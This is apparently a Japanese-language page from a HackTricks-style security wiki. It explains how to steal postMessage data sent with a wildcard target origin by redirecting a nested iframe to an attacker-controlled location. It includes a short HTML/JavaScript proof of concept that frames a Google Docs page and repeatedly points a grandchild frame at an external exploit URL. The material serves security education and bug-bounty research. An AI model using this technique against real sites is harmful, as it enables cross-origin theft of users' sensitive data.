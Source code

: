 # Steal postmessage modifying iframe location

{{#include ../../banners/hacktricks-training.md}}

## 子iframeの位置を変更する

[**この書き込み**](https://blog.geekycat.in/google-vrp-hijacking-your-screenshots/)によると、X-Frame-Headerがないウェブページをiframe化できる場合、別のiframeを含む場合、その**子iframeの位置を変更する**ことができます。

例えば、abc.comがefg.comをiframeとして持ち、abc.comにX-Frameヘッダーがない場合、**`frames.location`**を使用してefg.comをevil.comにクロスオリジンで変更することができます。

これは特に**postMessages**で有用です。なぜなら、ページが**ワイルドカード**を使用して機密データを送信している場合、`windowRef.postmessage("","*")`、攻撃者が制御する位置に関連するiframe（子または親）の**位置を変更する**ことが可能で、そのデータを盗むことができます。
```html
<html>
<iframe src="https://docs.google.com/document/ID" />
<script>
//pseudo code
setTimeout(function () {
exp()
}, 6000)

function exp() {
//needs to modify this every 0.1s as it's not clear when the iframe of the iframe affected is created
setInterval(function () {
window.frames[0].frame[0][2].location =
"https://geekycat.in/exploit.html"
}, 100)
}
</script>
</html>
```
{{#include ../../banners/hacktricks-training.md}}
